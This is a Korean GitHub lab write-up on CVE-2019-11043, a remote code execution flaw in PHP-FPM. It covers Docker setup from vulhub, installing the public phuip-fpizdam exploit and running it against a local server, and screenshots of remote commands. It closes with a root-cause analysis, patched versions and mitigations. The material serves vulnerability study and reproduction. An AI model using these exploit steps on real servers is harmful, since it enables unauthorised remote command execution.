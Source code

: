 # CVE-2019-11043

웹서버와 PHP를 연결해주는 기능인 PHP-FPM 에서 취약점 발생
<br>

## 0. 취약한 환경 버전

> PHP FPM 7.1.x ~ 7.1.33 

> PHP FPM 7.2.x ~ 7.2.24

> PHP FPM 7.3.x ~ 7.3.11

<br>

## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **golang**

<br>

> CVE-2019-11043 폴더 생성

```
mkdir CVE-2019-11043
```

<br>

> CVE-2019-11403 폴더 내 도커 파일 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/default.conf
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/docker-compose.yml
```

<br>

> CVE-2019-11043에 하위 폴더 www 생성

```
CVE-2019-11043$ mkdir www
```

<br>

> www폴더 내 인덱스 페이지 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/www/index.php
```

<br>

> 폴더 내 파일 확인

![1](https://user-images.githubusercontent.com/89399749/144745932-4312a5ca-5e6d-4a93-9be1-08113b5d1b71.png)


<br>

> CVE-2019-11043 폴더에서 컨테이너 생성 및 백그라운드 실행

```
docker-compose up -d
```
<br>

![2](https://user-images.githubusercontent.com/89399749/144745941-8b64ec89-11ae-4093-897f-1b031b490eb5.png)

<br>

> 도커 컨테이너 확인

![3](https://user-images.githubusercontent.com/89399749/144745945-c45ceb58-b102-4fb7-ab93-d72718b40d27.png)


<br>


> 인덱스 페이지 접속 확인

<kbd>![4](https://user-images.githubusercontent.com/89399749/144745961-46b75f47-f859-4a5b-8b05-7f0e9aa6c8bb.png)</kbd>



<br>

## 2. PoC

일반 사용자로 전환

<br>

> golang 설치

```
apt-get install golang
```
<br>


> phuip-fpizdam 다운로드

```
go get github.com/neex/phuip-fpizdam
go install github.com/neex/phuip-fpizdam
```
![5](https://user-images.githubusercontent.com/89399749/144745958-7a2c1862-836f-4e7f-829c-2f80f3575a5c.png)




<br>

> exploit 실행

```
./phuip-fpizdam http://localhost:8080/index.php
```

![6](https://user-images.githubusercontent.com/89399749/144745965-ee18a087-155a-4e45-ad89-93bb11e874b0.png)



<br>

> 원격 명령어 실행

<kbd>![7](https://user-images.githubusercontent.com/89399749/144745970-5af4bfa2-5661-4622-8279-3e40ab9d56e3.png)</kbd>



<kbd>![8](https://user-images.githubusercontent.com/89399749/144745976-a785d5c8-b495-4c53-9394-365c1649e27d.png)</kbd>




<br>

## 3. 원인 분석

> php 소스코드 중 path_info에 env_path_info의 산술 연산된 값을 넣는 부분이 있는데, 해당 부분에서 연산된 값에 대한 검증이 없어 취약점 발생

```php
if (apache_was_here) {
 path_info = script_path_translated + ptlen;
 tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
   } else {
     path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
     tflag = path_info && (orig_path_info != path_info);
   }
```

<br>

> 공격자가 URL과 쿼리 문자열 길이를 정확하게 맞추면, PATH_INFO를 _fcgi_data_seg의 첫번째 바이트(*pos)로 지정할 수 있고, pos에 0이 들어가면, Underflow가 발생

```c++
typedef struct _fcgi_data_seg {
    char                  *pos;
    char                  *end;
    struct _fcgi_data_seg *next;
    char                   data[1];
} fcgi_data_seg;
```

<br>

> 타겟을 대상으로 다수의 요청이 발생되어 공격자는 다수의 요청 중 길이가 맞는 요청값을 통해 취약점이 발생

<kbd>![9](https://user-images.githubusercontent.com/89399749/144745979-64f03e69-3b0b-47eb-9f8a-3c7b67d688f1.jpg)</kbd>



<br>

## 4. 대응 방안

> 패치 버전 7.3.11 , 7.2.24 업그레이드

![10](https://user-images.githubusercontent.com/89399749/144745982-77737cd2-8de1-4a85-91b3-9deb176bf074.png)



<br>

>  try_files 포함 혹은 if문을 통한 검증 코드 구현

## 참조

https://qiita.com/shimizukawasaki/items/39d68a7c658dfa50263d

https://github.com/neex/phuip-fpizdam

https://www.hahwul.com/2019/10/28/php7-underflow-rce-vulnerabliity/

https://saltlee.tistory.com/77



